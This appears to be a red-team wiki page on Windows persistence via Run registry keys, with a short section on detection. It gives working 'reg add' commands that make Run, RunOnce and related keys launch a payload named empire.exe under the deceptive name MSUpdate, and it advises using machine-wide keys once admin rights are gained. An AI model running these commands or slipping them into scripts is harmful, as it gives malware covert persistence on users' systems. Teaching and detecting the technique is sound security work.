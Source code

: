 # Run Registry Keys

#### Operators can achieve persistence by creating registry keys that execute an arbitrary payload during the logon process of a Windows system. This is one of the oldest tricks in the red team playbooks.

run the following command in the shell to add a key called MSUpdate in the Run registry key that points to the malicious binary located in the Temp folder.

```
reg add “HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run” /v MSUpdate /t REG_SZ /d “C:\Users\tspeedman\AppData\Local\Temp\empire.exe” /f
```

Other registry locations we could use for this kind of persistence are the `RunOnce`, `RunServices` and `RunServicesOnce` registry keys. Below is the syntax of commands you can use for them:

```
reg add “HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce” /v MSUpdate /t REG_SZ /d “C:\Users\tspeedman\AppData\Local\Temp\empire.exe”

reg add “HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices” /v MSUpdate /t REG_SZ /d “C:\Users\tspeedman\ AppData\Local\Temp\empire.exe “

reg add “HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce” /v MSUpdate /t REG_SZ /d “C:\Users\tspeedman\ AppData\Local\Temp\empire.exe “
```

{% hint style="info" %}
If elevated credentials have been obtained it is preferred to use the Local Machine registry locations instead of the Current User as the payload will executed every time that the system boots regardless of the user who is authenticating with the system.
{% endhint %}

## <mark style="color:red;">Detection</mark>

Most anti-virus products can detect these basic persistence techniques, in this case, if the run keys point to a binary that is not signed by trusted sources, the AV will flag the key and the payload.

the manual detection techniques would be looking for these keys and what they are pointing to (the AutoRuns.exe utility from sysinternals can be used for this).

